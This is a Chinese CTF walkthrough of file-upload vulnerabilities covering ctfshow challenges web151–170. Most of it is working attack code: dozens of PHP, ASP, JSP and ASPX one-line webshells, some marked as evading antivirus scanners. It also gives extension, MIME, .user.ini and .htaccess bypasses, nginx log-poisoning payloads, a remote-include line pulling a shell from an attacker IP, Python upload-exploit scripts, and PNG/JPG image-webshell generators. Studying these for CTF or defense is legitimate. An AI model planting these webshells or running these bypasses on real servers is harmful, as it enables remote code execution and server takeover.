






前言
文件上传漏洞 (上传知识点、题型总结大全-upload靶场全解)
产生文件上传漏洞的原因
原因：
- 对于上传文件的后缀名（扩展名）没有做较为严格的限制
- 对于上传文件的MIMETYPE(用于描述文件的类型的一种表述方法) 没有做检查
- 权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于shebang类型的文件）
- 对于web server对于上传文件或者指定目录的行为没有做限制
原理：
在 WEB 中进行文件上传的原理是通过将表单设为 multipart/form-data，同时加入文件域，而后通过 HTTP 协议将文件内容发送到服务器，服务器端读取这个分段 (multipart) 的数据信息，并将其中的文件内容提取出来并保存的。通常，在进行文件保存的时候，服务器端会读取文件的原始文件名，并从这个原始文件名中得出文件的扩展名，而后随机为文件起一个文件名 ( 为了防止重复 )，并且加上原始文件的扩展名来保存到服务器上
文件上传后导致的常见安全问题一般有:
上传文件是Web脚本语言，服务器的Web容器解释并执行了用户上传的脚本,导致代
码执行;上传文件是Flash的策略文件crossdomain.xml,黑客用以控制Flash在该域下的行为(其
他通过类似方式控制策略文件的情况类似);上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行:
上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执
行，被用于钓鱼和欺诈。除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口,溢出服务器的后台处理程序，如图片解析模块;或者上传-一个合法的文本文件， 其内容包含了PHP脚本，再通过“本地文件包含漏洞(Local File Include)”执行此脚本;等等。此类问题不在此细述。
常用的一句话木马
##PHP：
<?php @eval($_POST['r00ts']);?>
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>
<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>
<?php
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>
<?php
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>
<?php
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>
<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?> php环境>=5.6才能用
<?php eval($_POST1);?>
<?php if(isset($_POST['c'])){eval($_POST['c']);}?>
<?php system($_REQUEST1);?>
<?php ($_=@$_GET1).@$_($_POST1)?>
<?php eval_r($_POST1)?>
<?php @eval_r($_POST1)?>//容错代码
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句
<?$_POST['c']($_POST['cc']);?>
<?$_POST['c']($_POST['cc'],$_POST['cc'])?>
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O>
<?php echo `$_GET['r']` ?>
<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话
<?php (])?> 上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！
<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?>
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！
<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%>
无防下载表，有防下载表可尝试插入以下语句突破的一句话
<%eval(request(“1″)):response.end%> 备份专用
##JSP：
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
提交客户端
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>
##ASP
<%eval(Request.Item["r00ts"],”unsafe”);%>
<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%>
<%execute(request(“1″))%>
<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话
##aspx
<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script>
<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script>
<%eval request(chr(35))%> 不用双引号的一句话。
常见绕过姿势
大写绕过 或 同解析后缀名绕过
同解析名后缀：
PHP：.php .php2 .php3 .php4 .php5 .php6 .php7 .php空格 .phtml .pgif
.shtml .htaccess .phar .inc
ASP：.asp .aspx .config .ashx .asmx .aspq .axd .cshtm .cshtml .rem .soap
.vbhtm .vbhtml .asa .cer .shtml
JSP：.jsp .jspx .jsw .jsv .sjspf .wss .do .action简单来说就是用各种姿势绕过服务器处理逻辑上传木马拿到WebShell
web151-170
web151(Js前端限制)
前端限制了只能上传png文件，可以抓包后修改文件后缀名

Payload：
/upload/1.php
POST:attack=system(‘tac ../flag.php’);
web152(MIME后端绕过)
虽然后端简单检测，但是如果直接上传png,抓包的时候再改后缀，其实不用修改Content-Type，方法同上
MIME
MIME（Multipurpose Internal MailExtensions）多用途互联网邮件扩展类型。
是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动指定应用程序来打开。多用于来指定一些客户端自定义的文件名，以及一些媒体文件打开方式。
每个MIME类型由两部分组成，前面是数据的大类型，例如声音audio，图像image等，后面定义具体的种类
常见的MIME类型：
超文本标记语言文本：.html——>text/html
xml文档：.xml——>text/xml
XHTML文档：.xhtml——>application/xhtml+xml
普通文本：.txt——>text/plain
RTF文本：.rtf——>application/rtf
png图片:.png——>image/png
这应该是预期解，有点麻烦
上传一个php文件，同时用burp抓包，将burp中的Content-Type:
application/octet-stream修改为Content-Type:
image/png，即让服务器认为这个文件是一个图片文件去解析执行
web153(.user.ini)
常规姿势都试了发现没法绕过，发现upload可以访问，说明里面含有php文件可以考虑使用.user.ini绕过
.user.ini
- 当前目录里面有php文件的时候，可以运用ini配置文件进行配置这个php文件
- 和文件包含有关的配置项有auto_append_file和auto_prepend_file
原理: 指定一个文件（如a.jpg），那么该文件就会被包含在要执行的php文件中（如index.php）类
似于在index.php中插入一句：require(./a.jpg);这两个设置的区别只是在于auto_prepend_file是在
文件前插入；auto_append_file在文件最后插入（当文件调用的有exit()时该设置无效）所以要求当
前目录必须要有php文件,巧合的是这题upload目录下有个index.php所以这种方式是可以成功的。
auto_prepend_file=1.txt然后上传1.txt 这个1.txt木马就被自动包含进原来目录里的php文件了（一般是index.php）
Payload：/upload?attack=system(‘tac ../flag.php’);
web154(PHP短标签)
发现上传失败，应该是对txt文件里的内容有过滤经检测，查验之后发现是对php这三个字母过滤了
PHP标签绕过：
长标签：
短标签：、、<% %>、<%= %>
其中 需要开启 short_open_tag=On ，<% %> 需要开启 asp_tags=On
<?=eval($_POST{1})?>web155
自带 .user.ini，但不影响，payload 与 web154 一致
web156
过滤了[]
<?=system($_POST{'attack'});?>web157(nginx文件包含)
过滤了;``{}，但是不影响，可以直接在1.txt里面执行命令
<?=system(tac ../fla*)?>其他：
由于我们 $_POST[] 只使用一个参数并且为数组格式，考虑使用 array_pop() 弹出最后一个单元
<?eval(array_pop($_POST))?>由web158的黑名单得来，#nginx 的日志会获取 UA头 信息#bp 抓包,在 UA头 进行注入
<?include 'tac /var/log/nginx/access.log'?>web158
ban了log，可改为
<?include 'tac /var/l'.'og/nginx/access.l'.'og'?>web159
ban了()，但是可以使用反引号直接执行命令，或者之前的nginx日志注入
<?include '/var/lo'.'g/nginx/access.l'.'og'?>web160
空格，反引号被ban了
突破空格过滤可以用换行符%0a
可以继续日志注入或者php伪协议
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.p"."hp"?><?=include"/var/lo"."g/nginx/access.lo"."g"?>web161(伪造图片头GIF89a)
增加了对图片头的识别，用了getimagesize()进行检测
getimagesize(): 会对目标文件的16进制去进行一个读取，去读取头几个字符串是不是符合图片的要求
ini问价和一句话木马前都要加一句GIF89a，或者改成png文件头89 50 4E 47
GIF89a
<?=eval($_POST{1})?>web162(条件竞争 远程文件包含)
内容ban了.之前方法就不行了，可以包含/tmp/sess_{sessid}进行条件竞争
也可以进行远程文件包含
将木马上传至远程服务器，由于过滤了. 所以需要转换下，mm
<?php eval($_POST[x]);?> 或者 <?php system('cat ../f*');?>上传包含文件 .user.ini
GIF89a auto_prepend_file=txt上传远程调用文件 txt IP转数字
GIF89a <?=include"http://数字IP/mm"?>访问upload
但是我在尝试的时候，总是返回400😅
于是看到了另一个非预期，通过异或编码绕过这里不能直接用 python 的 urllib.parse.unquote 函数编码参数，需要自行写一个 int2byte
的函数，这里遇到个坑。
顺带用 python 实现了下 php 中对字符串的取反，其实就是 255 - 字符的ascii 得到的 ascii 取字符。于是就有了如下脚本。
import requests
def str2neg_bytes(target: str) -> bytes:
return b''.join(list((255-ord(c)).to_bytes(1, byteorder='big') for c in target))
payload = "/var/log/nginx/access.log"
file_content = "<?=include~".encode() + str2neg_bytes(payload) + "?>".encode()
burp0_url = "https://f0c1c895-2920-42b8-8f40-cff4a3a610b3.challenge.ctf.show/upload.php"
burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36 <?=system('tac ../fla*');?>", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryv0k4Ho2WfgKjvEM4", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
burp0_data = "------WebKitFormBoundaryv0k4Ho2WfgKjvEM4\r\nContent-Disposition: form-data; name=\"file\"; filename=\"file\"\r\nContent-Type: image/png\r\n\r\nGIF78a\r\n".encode() + file_content + "\r\n\r\n\r\n------WebKitFormBoundaryv0k4Ho2WfgKjvEM4--\r\n".encode()
response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(file_content)
print(response.text)
web163
上传图片后，会被删除，所以需要在上传的瞬间，就post命令执行，还可以直接在配置文件里远程包含，然后访问/upload/index.php。
这样就不用即时去post了。（这个要求服务器开启了远程包含选项）
同样也可以使用上面脚本
import requests
def str2neg_bytes(target: str) -> bytes:
return b''.join(list((255-ord(c)).to_bytes(1, byteorder='big') for c in target))
payload = "php://filter/convert.base64-encode/resource=/var/www/html/flag.php"
file_content = "<?=include~".encode() + str2neg_bytes(payload) + "?>".encode()
burp0_url = "https://ff4fcc76-8205-41ea-a4ba-52f257147647.challenge.ctf.show/upload.php"
burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryv0k4Ho2WfgKjvEM4", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
burp0_data = "------WebKitFormBoundaryv0k4Ho2WfgKjvEM4\r\nContent-Disposition: form-data; name=\"file\"; filename=\"file\"\r\nContent-Type: image/png\r\n\r\nGIF78a\r\n".encode() + file_content + "\r\n\r\n\r\n------WebKitFormBoundaryv0k4Ho2WfgKjvEM4--\r\n".encode()
response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(file_content)
print(response.text)
web164(png图片二次渲染)
这一关考察png图片二次渲染，经过上传图片后再次将图片下载下来经过对比，使用010editor发现经过了二次渲染，很多地方的数据都
不一样了
所谓二次渲染，就是网站将用户所上传的文件，由于各种原因（适配网站显示，防止木马）等，将文件中的数据进行修改，对二次渲
染的绕过即将源文件与上传之后的文件进行对比，找出没有发生变化的数据位置，将后门代码插入没有发生变化的数据的位置。对于
绕过二次渲染，人工绕过几乎不可能，这就需要使用脚本来进行构建图片马。
某不知名佬写的代码,参考CTFSHOW-文件上传
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'1.png'); //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
*/
//imagepng($img,'1.png'); 要修改的图片的路径,1.png是使用的文件，可以不存在
//会在目录下自动创建一个1.png图片
//图片脚本内容：$_GET[0]($_POST[1]);
//使用方法：例子：查看图片，get传入0=system；post传入tac flag.php
?>
------------------------------------
创建1.png图片成功！
------------------------------------
web165(jpg二次渲染)
<?php
/*
The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
It is necessary that the size and quality of the initial image are the same as those of the processed image.
1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:
jpg_payload.php <jpg_name.jpg>
In case of successful injection you will get a specially crafted image, which should be uploaded again.
Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
Sergey Bobrov @Black2Fan.
See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
*/
$miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
die('php-gd is not installed');
}
if(!isset($argv[1])) {
die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
$nullbytePayloadSize = $pad;
$dis = new DataInputStream($argv[1]);
$outStream = file_get_contents($argv[1]);
$extraBytes = 0;
$correctImage = TRUE;
if($dis->readShort() != 0xFFD8) {
die('Incorrect SOI marker');
}
while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
$marker = $dis->readByte();
$size = $dis->readShort() - 2;
$dis->skip($size);
if($marker === 0xDA) {
$startPos = $dis->seek();
$outStreamTmp =
substr($outStream, 0, $startPos) .
$miniPayload .
str_repeat("\0",$nullbytePayloadSize) .
substr($outStream, $startPos);
checkImage('_'.$argv[1], $outStreamTmp, TRUE);
if($extraBytes !== 0) {
while((!$dis->eof())) {
if($dis->readByte() === 0xFF) {
if($dis->readByte !== 0x00) {
break;
}
}
}
$stopPos = $dis->seek() - 2;
$imageStreamSize = $stopPos - $startPos;
$outStream =
substr($outStream, 0, $startPos) .
$miniPayload .
substr(
str_repeat("\0",$nullbytePayloadSize).
substr($outStream, $startPos, $imageStreamSize),
0,
$nullbytePayloadSize+$imageStreamSize-$extraBytes) .
substr($outStream, $stopPos);
} elseif($correctImage) {
$outStream = $outStreamTmp;
} else {
break;
}
if(checkImage('payload_'.$argv[1], $outStream)) {
die('Success!');
} else {
break;
}
}
}
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
global $correctImage;
file_put_contents($filename, $data);
$correctImage = TRUE;
imagecreatefromjpeg($filename);
if($unlink)
unlink($filename);
return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
global $extraBytes, $correctImage;
$correctImage = FALSE;
if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
if(isset($m[1])) {
$extraBytes = (int)$m[1];
}
}
}
class DataInputStream {
private $binData;
private $order;
private $size;
public function __construct($filename, $order = false, $fromString = false) {
$this->binData = '';
$this->order = $order;
if(!$fromString) {
if(!file_exists($filename) || !is_file($filename))
die('File not exists ['.$filename.']');
$this->binData = file_get_contents($filename);
} else {
$this->binData = $filename;
}
$this->size = strlen($this->binData);
}
public function seek() {
return ($this->size - strlen($this->binData));
}
public function skip($skip) {
$this->binData = substr($this->binData, $skip);
}
public function readByte() {
if($this->eof()) {
die('End Of File');
}
$byte = substr($this->binData, 0, 1);
$this->binData = substr($this->binData, 1);
return ord($byte);
}
public function readShort() {
if(strlen($this->binData) < 2) {
die('End Of File');
}
$short = substr($this->binData, 0, 2);
$this->binData = substr($this->binData, 2);
if($this->order) {
$short = (ord($short[1]) << 8) + ord($short[0]);
} else {
$short = (ord($short[0]) << 8) + ord($short[1]);
}
return $short;
}
public function eof() {
return !$this->binData||(strlen($this->binData) === 0);
}
}
?>
找了好久才找到可以通过的马
渲染前
渲染前
渲染后
渲染后

web166(zip追加马)
只允许上传zip文件，随便上传一个，然后内容改为一句话木马即可，我在上传时，还有MIME检测所以也需要改
Content-Type=appliaction/x-zip-compressed

最后点击下载文件，抓包后发起POST请求得到flag

web167(.htaccess)
那应该和apache有关，主要利用.htaccess进行绕过了
.htaccess文件
htaccess 在站点的根目录下面，不是在apache目录下，但是它属于apache的一个配置文件
htaccess文件时Apache服务中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮助我们实现：网页301
重定向、自定义404错误页面，改变文件扩展名、允许/阻止特定的用户或者目录的访问，禁止目录列表，配置默认文档等功能
其中.htaccess文件内容：SetHandler application/x-http-php的意思是设置当前目录所有文件都使用php解析，那么无论上传任何文
件，只要符合php语言代码规范，就会被当做PHP执行。不符合规则则报错
首先上传.htaccess
AddType application/x-httpd-php .jpg //将.jpg后缀的文件解析成php
然后再上传1.jpg，里面加上马的内容，之后直接访问xxx/upload/1.jpg即可
web168(后门免杀)
基础免杀
测试，会检测_GET、_POST。
可抓包后修改直接上传php文件。
反引号
反引号达到命令执行的效果。
<?php
$_=`whoami`;
echo $_;
// <?= `whoami`?>把源码拔下来
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date: 2020-10-24 19:34:52
# @Last Modified by: h1xa
# @Last Modified time: 2020-10-30 00:11:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
$filename = $_FILES["file"]["name"];
$filesize = ($_FILES["file"]["size"] / 1024);
if($filesize>1024){
$ret = array("code"=>1,"msg"=>"文件超过1024KB");
}else{
if($_FILES['file']['type'] == 'image/png'){
$str = file_get_contents($_FILES["file"]["tmp_name"]);
if(check($str)===0){
move_uploaded_file($_FILES["file"]["tmp_name"], './upload/'.$_FILES["file"]["name"]);
$ret = array("code"=>0,"msg"=>$_FILES["file"]["name"]);
}
}else{
$ret = array("code"=>2,"msg"=>"文件类型不合规");
}
}
}
function check($str){
return preg_match('/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i', $str);
}
echo json_encode($ret);本来还想着包含一波日志。
字符拼接
<?php $a='syste'.'m';($a)('ls ../');$_REQUEST
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>数学函数
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});
# get传参 abs=system&acos=ls其他函数构造
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>web169
日志包含
不过index.php需要自己上传
web170
同169